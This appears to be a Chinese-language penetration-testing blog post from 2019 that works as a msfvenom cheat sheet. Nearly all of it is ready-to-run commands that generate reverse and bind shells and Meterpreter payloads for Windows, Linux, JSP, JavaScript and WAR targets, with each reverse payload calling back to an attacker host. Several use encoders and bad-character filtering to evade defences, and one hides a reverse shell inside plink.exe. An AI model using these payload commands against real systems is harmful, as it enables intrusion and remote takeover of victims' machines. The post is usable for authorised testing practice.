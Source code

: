 ```yaml
---
layout:     post
title:      MSFVENOM SHELLCODE生成
subtitle:   MSFVENOM 生成 SHELLCODE
date:       2019-04-26
author:     BugMan
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - msf
    - 渗透测试
---
```



# MSFVENOM SHELLCODE生成

## 通用Shellcode

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none
```

## Windows反向TCP Shell（Shellcode x86）

如果有效负载大小没有问题并且您不能确定错误的字符，请仅使用此代码：

```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"
```

## 嵌入在“ plink.exe”中的Windows反向TCP Shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o burmat_embedded.exe
```

## 绑定Shell Shellcode

我不经常使用绑定外壳，但是有时打开端口比发出反向连接更容易：

```
msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python
```

# 反向壳

奇形怪状的反向弹壳会使您绊倒。那些“等等，我以前做过吗？” 片刻。就像当您看到Tomcat以默认凭据或ColdFusion站点运行时（操我...）

## JSP反向外壳

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o burmat.jsp
```

## JavaScript反向Shell

如果要攻击Windows主机：

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```

如果要攻击Linux主机：

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
```

## WAR（Java）反向外壳

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war -o burmat.war
```

# 仪表反向有效载荷：

不要只是复制和粘贴-学习和理解语法。这些都是针对x86机器的，因此只需将其交换到x64即可满足您的需求。

## Windows Meterpreter有效负载

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o burmat.exe
```

## Windows Meterpreter反向HTTPS有效负载（x86）

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -b '\x00' -f exe -o burmat.exe
```

## Linux Meterpreter Stager

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.11 LPORT=443 -f elf -o burmat
```
